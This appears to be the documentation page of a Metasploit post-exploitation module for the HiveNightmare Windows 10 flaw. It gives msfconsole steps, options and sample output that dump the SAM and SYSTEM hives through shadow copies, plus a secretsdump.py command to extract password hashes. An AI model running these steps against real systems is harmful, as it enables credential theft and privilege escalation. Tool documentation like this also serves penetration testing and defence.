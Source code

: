 ## Vulnerable Application

### Description

Due to mismanagement of SAM and SYSTEM hives in Windows 10, it is possible for an unprivileged
user to read those files. But, as they are locked while Windows is running we are not able
to read them directly. The trick is to take advantage of Volume Shadow Copy, which is generally
enabled, to finally have a read access. Once SAM and SYSTEM files are successfully dumped and
stored in `store_loot`, you can dump the hashes with some external scripts like secretsdump.py

### Installation

VSS is probably already enabled on your Windows 10, if you want to be sure you can follow the steps below:

* Open the control panel
* Navigate to `System and Security > System`
* Select `System Protection` from the column on the left
* See in `Protection Settings` list if t drive protection is enabled
* Optionally, select `Create` to "Create a resptore point right now..."
    * This is necessary if the module can not find an existing Shadow Copy file which can be the case if the Windows
      instance is brand new

Be aware that you will need Administrator privileges to follow those steps.
You can read more [here](https://isc.sans.edu/diary/Summer+of+SAM+-+incorrect+permissions+on+Windows+1011+hives/27652).

## Verification Steps


1. Start `msfconsole`
2. `use post/windows/gather/credentials/windows_sam_hivenightmare`
3. `set ITERATIONS <number>` to specify the number of iterations on file index (default is 10)
4. `set FILE_INDEX <number>` optionally if you want to target a specific file index instead of iterating on all indexes in a range
5. `run` the module to exploit the vulnerability and potentially leak SAM and SYSTEM files

## Options

### ITERATIONS

Set ITERATIONS to specify the number of iterations on Shadow Copy file index.
Windows is saving those files under the volume name `HarddiskVolumeShadowCopy<index>`.
By default, this module is bruteforcing that `index` value by trying all values between 0 and 10, which you can change if needed.

### FILE_INDEX

Set FILE_INDEX if you want to target a specific index instead of the default behaviour which bruteforces all indexes in a given range.

## Scenarios

This module was successfully tested on Windows 10 20H2.
See the following output:

```
msf post(windows/gather/credentials/windows_sam_hivenightmare) > run

[+] SAM data found in HarddiskVolumeShadowCopy1!
[+] Retrieving files of index 1 as they are the most recently modified...
[+] SAM data saved at /home/smcintyre/.msf4/loot/20210729113916_default_192.168.159.15_windows.sam_763500.bin
[+] SYSTEM data saved at /home/smcintyre/.msf4/loot/20210729113926_default_192.168.159.15_windows.system_202176.bin
[+] SAM and SYSTEM data were leaked!
[*] Post module execution completed
msf post(windows/gather/credentials/windows_sam_hivenightmare) > file /home/smcintyre/.msf4/loot/20210729113916_default_192.168.159.15_windows.sam_763500.bin
[*] exec: file /home/smcintyre/.msf4/loot/20210729113916_default_192.168.159.15_windows.sam_763500.bin

/home/smcintyre/.msf4/loot/20210729113916_default_192.168.159.15_windows.sam_763500.bin: MS Windows registry file, NT/2000 or above
msf post(windows/gather/credentials/windows_sam_hivenightmare) >
```

Then, you can dump the hashes from leaked files with `secretsdump.py` for instance:
`python3 secretsdump.py -sam <SAM_FILE> -system <SYSTEM_FILE> LOCAL`
